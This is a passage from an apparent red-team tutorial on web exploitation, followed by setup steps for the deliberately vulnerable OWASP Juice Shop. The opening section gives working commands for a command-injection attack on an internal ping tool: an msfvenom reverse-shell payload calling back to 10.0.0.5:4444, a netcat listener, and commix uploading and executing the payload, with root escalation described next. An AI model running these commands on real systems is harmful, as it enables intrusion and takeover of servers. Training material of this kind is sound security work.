 5. **Establishing Persistent Access**:
   ```bash
   # Created a reverse shell payload
   msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.0.0.5 LPORT=4444 -f elf > shell.elf
   
   # Set up a netcat listener on our attack box
   nc -lvnp 4444
   
   # Used commix to upload and execute the payload
   commix -u "http://monitoring.internal.corp/tools/ping.php?host=192.168.1.1" --file-upload=shell.elf --file-dest=/tmp/shell.elf
   commix -u "http://monitoring.internal.corp/tools/ping.php?host=192.168.1.1" --os-cmd="chmod +x /tmp/shell.elf; /tmp/shell.elf"
   ```

6. **Privilege Escalation via SUID Binary**:
   With our reverse shell established, we leveraged the SUID ping binary to escalate privileges to root, demonstrating the full impact of the command injection vulnerability.

This example illustrates how a seemingly innocuous feature like a ping utility can be exploited through command injection to gain complete control of a server, highlighting the importance of proper input validation and command sanitization.

## OWASP Juice Shop: Practice Environment

OWASP Juice Shop is a deliberately vulnerable web application that serves as an excellent practice environment for web application exploitation techniques. It includes common vulnerabilities from the OWASP Top 10 and beyond, making it ideal for red team training.

### Installation and Setup

```bash
# Clone the repository
git clone https://github.com/bkimminich/juice-shop.git
cd juice-shop

# Install dependencies
npm install

# Start the application
npm start
```

Alternatively, you can use Docker:

```bash
docker pull bkimminich/juice-shop
docker run -d -p 3000:3000 bkimminich/juice-shop
```

The application will be available at http://localhost:3000.

### Key Vulnerabilities to Exploit

OWASP Juice Shop includes numerous vulnerabilities for practice. Here are some of the most important ones for red teamers:
